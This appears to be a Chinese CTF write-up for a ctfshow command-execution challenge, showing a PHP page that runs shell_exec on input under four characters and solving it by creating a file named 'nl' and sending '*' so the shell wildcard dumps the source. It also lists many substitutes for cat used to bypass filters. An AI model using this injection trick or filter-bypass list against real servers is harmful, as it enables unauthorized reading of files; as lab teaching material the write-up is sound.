 ## ctfshow 红包题-nl
`考察命令执行`
```php
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<4){
     echo shell_exec($_GET[1]);
}
else{
     echo "hack!!!";
}
?>
//by Firebasky 
```
因为限制了长度，我们可以写入命令。`?1>nl`。
然后ls查看一下文件内容，刚刚好第一个命令在前面。

在linux上测试
```bash
root@kail:~/test# >id
root@kail:~/test# >root
root@kail:~/test# ls
id root
```
### 原理：通配符*,会把第一个列出来的文件名当成命令，剩下的文件名当成参数

所以我们在输入`1?=*` 查看源代码获得flag

### 方法二：
通过 `xz` 命令改一改成压缩包 然后直接下载打开；

### 拓展：

思路：代替cat
cat 由第一行开始显示内容，并将所有内容输出

tac 从最后一行倒序显示内容，并将所有内容输出

more 根据窗口大小，一页一页的现实文件内容

less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head 只显示头几行

tail 只显示最后几行

nl 类似于cat -n，显示时输出行号

tailf 类似于tail -f

sort  命令用于将文本文件内容加以排序。

od  od指令会读取所给予的文件的内容，并将其内容以八进制字码呈现出来。

base64 通过base64输出文件内容,

awk,cut,rev,grep,uniq,strings,sed等等
